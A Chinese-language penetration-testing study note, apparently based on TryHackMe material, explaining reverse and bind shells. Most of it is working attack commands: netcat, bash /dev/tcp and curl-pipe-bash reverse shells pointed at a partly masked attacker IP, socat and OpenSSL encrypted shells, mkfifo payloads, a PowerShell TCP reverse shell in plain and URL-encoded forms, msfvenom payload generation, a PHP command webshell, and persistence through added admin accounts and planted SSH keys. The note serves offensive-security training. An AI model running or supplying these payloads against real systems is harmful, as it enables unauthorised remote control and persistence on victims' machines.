


# Shell

# 概念

反弹 shell，就是攻击机监听在某个 TCP/UDP 端口为服务端，目标机主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机。

### **正向连接**

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标 ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web 服务、ssh、telnet 等等都是正向连接。

### **反向连接**

那么为什么要用反弹 shell 呢？

反弹 shell 通常适用于如下几种情况：

* 目标机因防火墙受限，目标机器只能发送请求，不能接收请求。
* 目标机端口被占用。
* 目标机位于局域网，或 IP 会动态变化，攻击机无法直接连接。
* 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。
* ......
对于以上几种情况，我们是无法利用正向连接的，要用反向连接。

---

## 反向 shell

在目标系统上启动一个Shell，它主动发起连接到攻击者预先设定的IP地址和端口号，从而绕过目标系统可能存在的防火墙或网络限制。

**应用场景：**当目标系统无法主动接收外部连接（比如，处于NAT后面或有严格的防火墙规则）时，使用Reverse Shell可以绕过这些限制，因为它是从目标系统发起的外向连接。

* **方法：**使用工具设置一个监听器，用于接收连接
* **优点：**可以绕过防火墙规则；更容易执行和调试
* **缺点：**需要配置自己的网络以接收 shell

执行以下代码建立连接：


```Bash
# 攻击机上代码
sudo nc -lvnp 443
# 目标上
nc <span style="color: #C7D5F6"><local_ip> <port></span> -e /bin/bash
```


## 绑定 shell

在目标系统上打开一个监听的Shell，等待外部连接。这通常是在目标系统的一个开放端口上进行的。

**应用场景：**当攻击者可以直接访问目标系统的某个开放端口时，使用Bind Shell可以立即建立一个交互式会话。

**建立方式：**攻击者通过某种手段（如利用漏洞）在目标系统上放置恶意代码，该代码会打开一个端口并监听；然后攻击者只需连接到该端口即可获得Shell访问权限。

* **优点：**不需要在自己的网络上进行任何配置；由于Bind Shell在目标系统上监听一个端口，可以一眼快速响应攻击者的连接
* **缺点：**可能会被目标的防火墙阻止


```Bash
#现在目标上执行： 
nc -lvnp <span style="color: #C7D5F6"><port></span> -e "cmd.exe"
#在攻击机上个执行：
nc <span style="color: #C7D5F6">machine_ip <port></span>
```

**Tip:** 交互式程序在非交互式 shell 中无法正常工作（交互式程序：需要用户输入`“yes/no"`）

# 工具

## `Netcat`

* 用于手动执行各种网络交互，包括在枚举过程中抓取 banner
* 用于接收反向`shell`并连接到目标系统上绑定`shell`的远程端口

在目标上手动安装netcat：


```Bash
wget https**:**//nchc**.**dl**.**sourceforge**.**net**/**project**/**netcat**/**netcat**/0.7.1/**netcat**-0.7.1.**tar**.**gz
tar **-**xvzf netcat**-0.7.1.**tar**.**gz
**.**/configure
make **&&** make install
make clean
```

### 用法

#### 获得反向 shell


```Bash
nc -lvnp <port-number>    #在攻击机山开启反向监听
```

* `-l`：用于告诉 netcat 这是一个监听程序
* `-v`：用于请求详细的输出
* `-n`：告诉 netcat 不要解析主机名或 DNS
* `-p`：表示端口规格随后给出
<span style="color: #FBBFBC">Tips：</span>使用小于 1024 的端口时，需要用`sudo`，使用常用端口更可能绕过防火墙的出站规则


```Bash
nc <target-ip> <port> -e <span style="color: #FBBFBC">/bin/bash   </span> #将目标连接攻击机
```

##### Shell 稳定化的方法

> netcat 获得的 shell 默认很不稳定，按下`Ctrl+C`会彻底关闭程序，且是非交互式的，经常会出现奇怪的格式错误。因为`netcat shell`实际上是运行终端的进程，不是真正意义上的终端。

##### `使用 Python`

使用 Python 可以创建一个功能强大的`bash shell`，某些目标可能需要指定 Python 版本，需要将`python`替换为`python2`或者`python3`


```Bash
python -c 'import pty;pty.spawn("/bin/bash")' #仍无法使用tab键或箭头键，CTRL+C仍会杀死sehll
export TERM=xterm    #可以访问如clear之类的命令
stty raw -echo; fg   #在自己的终端中执行，然后可以使用Ctrl+z在后台运行shell
```

**注意：**如果 shell 进程终止，自己的终端中输入的内容将不可见（因为已禁用了终端回显功能）。要解决此问题，输入 `reset ` 并按回车键

##### `使用 rlwrap`程序

> 可以让我们在接收到 `shell`后立即获得历史记录、Tab 自动补全和箭头键的功能。
> 然而，如果想在 shell 中使用 Ctrl+C，仍然需要手动进行稳定设置。


```Bash
sudo apt install rlwrap    #安装klwrap程序
<span style="color: #FBBFBC">rlwrap nc -lvnp</span><span style="color: #C7D5F6"><port></span>   #可以拥有一个功能更完整的shell
# 在处理Linux目标时，可以通过使用与前面技巧第三步相同的技巧来完全稳定shell：
stty raw -echo; fg
```

##### 使用`Socat`

> 使用初始的 nc shell 作为进入功能更完备的`nc shell`的跳板。<span style="color: #FBBFBC">仅限于 Linux 系统</span>，Windows 系统中的 socat shell 稳定性没有更好


```Bash
# 将socat静态编译的二进制文件上传到目标机器
sudo python3 -m http.server 80 # 在攻击机中使用Web服务器，然后将socat文件放入目录中
wget <span style="color: #C7D5F6"><local-ip></span>/socat -O /tmp/socat  #使用nc shell来下载文件（**Linux中**，使用curl或wget）
Invoke-Webrequset -uri<span style="color: #C7D5F6"> <local-ip></span>/socat.exe -outfile C:\\windos\temp\socat.exe #windos中
```

> 使用上述任何一种技术时，能够更改终端 tty 的大小都是很有用的。在使用常规 shell 时，终端会自动执行此操作；然而，如果您想使用诸如覆盖屏幕上所有内容的文本编辑器之类的工具，则必须手动执行此操作（在反向或绑定 shell 中）。
> 
```Bash
stty -a  #运行命令
rows 45; columns 118 #记下行数和列数的值

stty rows <number>   #在反向/bangdingshell中输入命令
stty cols <number>   #在反向/bangdingshell中输入命令
```


#### 获得绑定 shell


## 利用 Bash 反弹 shell


```Bash
#攻击机开启本地监听
nc **-**lvvp **2333**
#目标主动连接攻击机
bash -i >**&** /dev/tcp/47.xxx.xxx.72/2333 **0**>**&1**
或
bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"
*# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1*
```

<span style="color: #E0E1E4">Bash 产生了一个交互环境和一个本地主机主动发起的与攻击机 2333 端口建立的连接（即 TCP 2333 会话连接）相结合，然后在重定向个 TCP 2333 会话连接，最后将用户键盘输入与标准输出相结合再次重定向给一个标准的输出，即得到一个 Bash 反弹环境。</span>

### **Curl 配合 Bash 反弹 shell**

这里操作也很简单，借助了 Linux 中的管道。

首先，在攻击者 vps 的 web 目录里面创建一个 index 文件（index.php 或 index.html），内容如下：


```Bash
bash -i >**&** /dev/tcp/47.xxx.xxx.72/2333 <span style="color: #D4C1F3">**0**</span>>**&**<span style="color: #D4C1F3">**1**</span>
```

并开启 2333 端口的监听。

然后再目标机上执行如下，即可反弹 shell：


```Bash
curl <span style="color: #D4C1F3">**47**</span>.xxx.xxx.72**|**bash
```


## `Socat`

* 比`netcat shell`更稳定
* 语法更难；Linux 上默认不安装
### 用法

#### 1.获取反向 shell


```Bash
socat TCP:<span style="color: #C7D5F6"><LOCAL-IP>:<LOCAL-PORT></span> EXEC:powershell.exe,pipes  #在windows上连接
#pips选项用于强制powershell或cmd.exe使用unix风格的标准输入输出
socat TCP:<span style="color: #C7D5F6"><LOCAL-IP>:<LOCAL-PORT></span> EXEC:"bash -li"    #在Linux上连接 
```

#### 2.获取绑定 shell


```Bash
socat TCP-L:<span style="color: #C7D5F6"><PORT></span> EXEC:"bash -li" #在Linux上连接
socat TCP-L:<span style="color: #C7D5F6"><PORT></span> EXEC:powershell.exe,pipes #在windows上连接
```

#### 3.监听语法


```Bash
#在攻击机上执行：
socat TCP:<span style="color: #C7D5F6"><TARGET-IP>:<TARGET-PORT></span> -
```

#### 4.<span style="color: #FBBFBC">建立完全稳定的 Linux tty 反向 shell（√）</span>


```Bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0    #攻击机上执行
#必须使用非常特定的 SoCAT 命令来激活此特殊侦听器，默认情况下，大多数机器没有安装 socat
#但是，可以上传预编译的 socat 二进制文件，然后可以正常执行
socat TCP:<attacker-ip>:<attacker-port>EXEC:"bash -li",pty,stderr,sigint,setsid,sane
#目标上执行1
```

* Pty：在目标上分配一个伪终端，稳定过程的一部分
* stderr：确保任何错误消息都显示在 shell 中
* sigint：将任何 Ctrl+C 命令传递到子进程中，允许我们在 shell 内终止命令
* setsid：在新会话中创建进程
* sane：稳定终端，试图正常化
* EXEC：“bash -li”创建交互式 bash 会话


注意：如果 socat shell 无法正常工作，可以在命令中添加`-d -d`来增加详细程度

### 创建加密shell

使用加密shell时，`TCP`命令应该替换为`OPENSSL`


```Bash
#1.生成一个证书
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
#2.将两个创建的文件合并为一个 .pem 文件:
cat shell.key shell.crt > shell.pem
#3.设置反向shell监听器
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
#4.连接回去
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

`verify=0` 告诉连接不要试图验证我们的证书是否已经被认可的权威机构正确签名。

对于绑定shell


```Bash
#在目标上
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
#在攻击机上
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

常见有效载荷

netcat一些版本中，有-e选项，允许在连接时执行一个进程

使用以下代码创建一个绑定shell的监听器


```Bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
#创建文件 /tmp/f，然后使用 netcat 监听指定端口，并将标准输入发送到该端口。
#同时，将标准输出和标准错误重定向到文件 /tmp/f 中。最后，删除文件 /tmp/f
```


```Bash
mkfifo /tmp/f; nc.traditional -l -p 8080 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

发送netcat反向shell


```Bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```


PSH反向shell


```Bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

包含各种语言的shell代码的库：https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

> 比较稳定


## `Msfvenom`

关于payload相关事务的一站式商店

> msfvenom是metasploit框架的一部分，用于生成用于反向和绑定shell的代码，在较低级别的漏洞开发中被广泛使用，用于生成像缓冲区溢出这样的漏洞的十六进制shellcode；然而，它也可以用于生成各种格式的payload（例如 `.exe` 、 `.aspx `、`.war`、 `.py`）。


msfvenom的标准语法：`msfvenom -p <payload> <options>`

例如，生成一个Windows 64位的反向shell代码：


```Bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```


|选项 |功能 |
|---|---|
|`-f` |指定输出格式，上述例子是一个可执行文件（exe） |
|`-o` |生成payload的输出位置和文件名 |
|`LHOST=<IP>` |指定要连回的IP |
|`LPORT=<PORT>` |连接回本地机器的端口，可以在0-65535之间任意选择，但不能被占用 |
### 分阶段反向shell载荷和无级的反向shell载荷

*Staged vs Stageless*

**分阶段反向shell载荷**被分成两部分发送，第一部分成为stager，这是一段直接在服务器上执行的代码。它会连接到一个等待的侦听器，但本身并不包含任何反向shell代码。相反，它会连接到侦听器，并使用该连接加载真正的载荷，直接执行，从而防止它接触磁盘，这样就可以避免被传统的反病毒解决方案捕获。

载荷被分为两部分——a smal initial stager，另一部分是当stager激活时下载的更大、更笨重的反向shell代码


**无级载荷：**完全独立的，即只需执行一段代码，即可立即向等待的接收者发送一个shell

易于使用和检测，但是也容易被杀毒软件发现和删除

*Meterpreter：*Metasploit自己的全功能shell，非常稳定，目标是windows系统使可以选用

有内置的文件上传和下载功能，缺点是会被metasploit捕获

<u>*Payload Naming Conventions*</u>

载荷命名规范

* 基本规范：`<OS>/<arch>/<payload>`为x86 Linux目标生成一个无阶段的反向shell：`linux/x86/shell_reverse_tcp`
* 32位的windows没有指定arch：`windows/shell_reverse_tcp`
* 64位的windows，arch指定为x64
无阶段载荷：shell_reverse_tcp

阶段载荷：shell/reverse_tcp

Windows 64位阶段<u>Meterpreter</u>载荷：`windows/x64/meterpreter/reverse_tcp`

Linux 32位无阶段<u>Meterpreter载荷：</u><u>`linux/x86/meterpreter_reverse_tcp`</u>

帮助

* `msfconsole` man page：手册页
* `msfvenom --list payloads`：列出所有可用的有效载荷，可以使用管道连接grep搜索特定的有效载荷集


## `Metasploit — multi/handler`

捕获反向shell的绝佳工具。如果想使用Meterpreter shell，它是必不可少的，也是使用staged payloads的首选。

使用方法

1. 用 `msfconsole` 打开Metasploit
2. 输入 `use multi/handler` ，按“enter”
3. `options`查看选项
4. 设置选项
    * `set PAYLOAD <payload>`
    * `set LHOST <listen-address>`
    * `set LPORT <listen-port>`
5. 使用`exploit -j`命令启动该模块，以作业的形式在后台运行
6. 使用 `sessions 1` 将其再次置于前台



当运行前一个任务中生成的暂存有效载荷时，Metasploit会接收到连接，发送剩余的有效载荷并给我们一个反向shell:


## 其他

1. PentesMonkey Reverse Shell Cheatsheet

## `Webshell`

有些可以某种方式上传可执行文件的网站，可以利用这个机会来上传代码，从而激活反向或绑定shell，但有时是不可行的。在这种情况下，我们会上传一个webshell。

<span style="color: #E0E1E4">参阅</span><span style="color: #E0E1E4">[TryHackMe | Cyber Security Training](https://tryhackme.com/room/uploadvulns)</span><span style="color: #E0E1E4">详细了解此概念。</span>

Webshell指的是在web服务器中运行的脚本(通常使用PHP或ASP等语言)，它在服务器上执行代码

基本上，命令是通过HTML表单或直接作为URL中的参数输入到网页中的，然后由脚本执行，结果返回并写入页面。如果有防火墙，这可能非常有用，甚至只是作为一个跳板，进入完全成熟的反向或绑定shell。

PHP代码示例：


```Bash
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

执行代码后，会接受URL中的GET参数，并在系统上以 `shell_exec()` 执行它



在URL请求中，包含了名为"cmd"的GET参数，并赋值"ifconfig"，然后正确地返回了目标的网络信息。换句话说，通过在shell的URL中输入`ifconfig` 命令，它就会在系统上执行，并返回结果给我们。这适用于我们选择使用的任何其他命令(例如 `whoami`，`hostname` ，`arch`，等等)。

kali中有各种默认的webshell可以用，文件目录：/usr/share/webshells，包括著名的[raw.githubusercontent.com](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)（一个用php编写的完整反向shell），大多数特定语言编写的（例如php）的反向shell多数针对unix系统，默认情况在windows下无法工作。

当目标是windows时，通常最简单的方法是使用web shell获取RCE，或者使用msfvenom工具生成与服务器语言相符的反向/绑定shell

* 获取RCE：通过URL编码的Powershell反向Shell完成，它会被复制到URL中，作为 `cmd` 参数
  * 这是我们在Task 8中遇到的同一个shell，但是它被URL编码，以便在GET参数中安全地使用。
  
```Bash
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<span style="color: #C7D5F6"><IP></span>%27%2C<span style="color: #C7D5F6"><PORT></span>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```


NEXT TEPS

shell通常是不稳定且无法交互的，即使更容易稳定的unix风格shell也并不是一个完美的选择，理想的情况是获得目标的账户访问权。

* 将SSH密钥存储在`/home/<user>/.ssh`中
* 有的漏洞还允许添加账户
* 利用[Dirty COW (CVE-2016-5195)](https://dirtycow.ninja/)、可写的 `/etc/shadow`或者`/etc/passwd`文件可以快速使用SSH访问这台机器，前提：SSH已开启

在Windows上，选项通常更有限。有时可以在注册表中找到运行服务的密码。例如，VNC服务器经常以明文形式在注册表中保存密码。FileZilla FTP服务器的某些版本也会将凭据保存在XML文件中 `C:\Program Files\FileZilla Server\FileZilla Server.xml`

理想情况下，在Windows上，你应该以系统用户身份获得一个shell，或者以具有高权限的管理员帐户运行。在这种情况下，可以简单地将自己的帐户(在administrators组中)添加到机器上，然后通过RDP、telnet、winexe、psexec、WinRM或任何其他方法登录，这取决于运行在机器上的服务。

语法如下：


```Shell
net user <username> <password> /add
net localgroup administrators <username> /add
```


# 参考文档

[反弹 Shell，看这一篇就够了 - 先知社区](https://xz.aliyun.com/t/9488?time__1311=n4%2BxnD0Du0YGq0KYGNnmDUxYqxxRxRhDbq4AIdx#toc-5)

[SOCAT 简介](https://brieflyx.me/2015/linux-tools/socat-introduction/)


[下载.htm](assets/H2rib5T7Lon0snxLylHcKZuwnKF_下载.htm)


